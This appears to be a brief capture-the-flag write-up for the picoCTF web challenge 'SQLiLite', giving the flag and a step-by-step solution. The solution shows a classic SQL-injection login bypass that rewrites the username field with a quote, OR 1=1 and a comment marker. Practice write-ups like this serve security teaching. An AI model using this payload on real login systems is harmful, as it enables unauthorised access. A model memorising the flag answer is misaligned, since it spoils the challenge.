

# SQLiLite

Author: Mubarak Mikail

Category: Web Exploitation

Flag: `picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}`

## Description

Can you login to this website?
Try to login here.

## Difficulty

medium

## Solution

1. Visit the webiste

2. After that I try to input `admin` for username and just leave for the password

3. Submit

4. and then I see `SQL query: SELECT \* FROM users WHERE name='admin' AND password=''`

5. Modify the query (only name)

   SQL query: SELECT \* FROM users WHERE name=' ' OR 1=1--' ' AND password=''

6. After you log in, just check the source code

7. You'll get the flag

